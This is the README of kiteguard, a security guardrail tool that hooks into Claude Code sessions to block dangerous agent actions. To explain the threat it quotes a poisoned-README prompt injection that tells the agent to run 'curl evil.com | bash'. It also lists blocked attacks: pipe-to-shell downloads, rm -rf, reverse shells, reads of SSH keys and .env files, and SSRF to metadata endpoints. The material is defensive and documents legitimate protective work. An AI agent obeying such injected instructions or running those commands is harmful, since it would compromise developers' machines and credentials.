


<p align="center">
  
</p>

<p align="center">
  <em>Runtime security guardrails for Claude Code and AI coding agents</em>
</p>

<p align="center">
  <strong>kiteguard watches every move your AI agent makes — and stops the dangerous ones.</strong>
</p>

[](https://github.com/DhivakaranRavi/kiteguard/actions/workflows/ci.yml)
[](LICENSE)


---

## Install

**Option 1 — Install script (quickest):**
```bash
curl -sSL https://raw.githubusercontent.com/DhivakaranRavi/kiteguard/main/scripts/install.sh | bash
```

**Option 2 — Build from source (recommended for security-conscious users):**
```bash
git clone https://github.com/DhivakaranRavi/kiteguard.git
cd kiteguard
cargo build --release
sudo install -m755 target/release/kiteguard /usr/local/bin/kiteguard
kiteguard init
```

> No dependencies beyond a Rust toolchain. Get Rust at [rustup.rs](https://rustup.rs).

---

## Why kiteguard

Claude Code is an agent harness — it autonomously executes shell commands, reads your entire codebase, fetches external URLs, and modifies files without asking for confirmation. That power also means:

- A poisoned README can instruct Claude to run `curl evil.com | bash`
- A web page Claude fetches can contain embedded instructions
- PII in files Claude reads goes straight to the Claude API
- No security team has visibility into what developers are doing with Claude

kiteguard solves this by intercepting at **four critical points** in every Claude Code session — before damage happens.

---

## How it works

<p align="center">
  
</p>

<!--

-->

---

## What it blocks

| Threat | Hook |
|---|---|
| `curl \| bash`, `wget \| sh` pipe attacks | PreToolUse |
| `rm -rf /`, reverse shells | PreToolUse |
| Reads of `~/.ssh`, `.env`, credentials | PreToolUse |
| Writes to `/etc`, `.claude/settings.json` | PreToolUse |
| SSRF to cloud metadata endpoints | PreToolUse |
| Prompt injection in developer input | UserPromptSubmit |
| PII (SSN, credit cards, emails) in prompts | UserPromptSubmit |
| Injection embedded in files Claude reads | PostToolUse |
| Secrets/API keys echoed in responses | Stop |

---

## Configuration

Works with secure defaults. To customize for your org, create `~/.kiteguard/rules.json`:

```json
{
  "bash": {
    "block_patterns": ["curl[^|]*\\|[^|]*(bash|sh)"]
  },
  "file_paths": {
    "block_read": ["**/.env", "**/.ssh/**"]
  },
  "pii": {
    "block_in_prompt": true,
    "types": ["ssn", "credit_card", "email"]
  },
  "webhook": {
    "enabled": true,
    "url": "https://your-siem.company.com/kiteguard"
  }
}
```

---

## CLI

| Command | Description |
|---|---|
| `kiteguard init` | Register kiteguard hooks with Claude Code |
| `kiteguard audit` | View the local audit log (all events) |
| `kiteguard audit verify` | Verify audit log hash-chain integrity — detects tampering |
| `kiteguard policy` | View active security policies (alias for `policy list`) |
| `kiteguard policy list` | Print all active policy settings |
| `kiteguard policy path` | Print the path to the active `rules.json` file |
| `kiteguard policy sign` | Re-sign `rules.json` after manual edits |
| `kiteguard --version` | Print version |
| `kiteguard --help` | Show help |

---

## Audit log

Every event is logged to `~/.kiteguard/audit.log`:

```
TIMESTAMP                      HOOK                      VERDICT   RULE
2026-03-28T10:23:01Z           PreToolUse                🚫 block  dangerous_command
2026-03-28T10:23:45Z           UserPromptSubmit          ✅ allow
```

---

## Architecture

Built in Rust as a single static binary. No runtime dependencies.

- Hooks dispatch to `src/hooks/` handlers
- Detection logic lives in `src/detectors/`
- Policy engine in `src/engine/`
- Audit logging in `src/audit/`

See [docs/architecture.md](docs/architecture.md) for the full technical design.

---

## Contributing

See [CONTRIBUTING.md](CONTRIBUTING.md). Issues labeled `good first issue` are a great starting point.

## License

MIT OR Apache-2.0
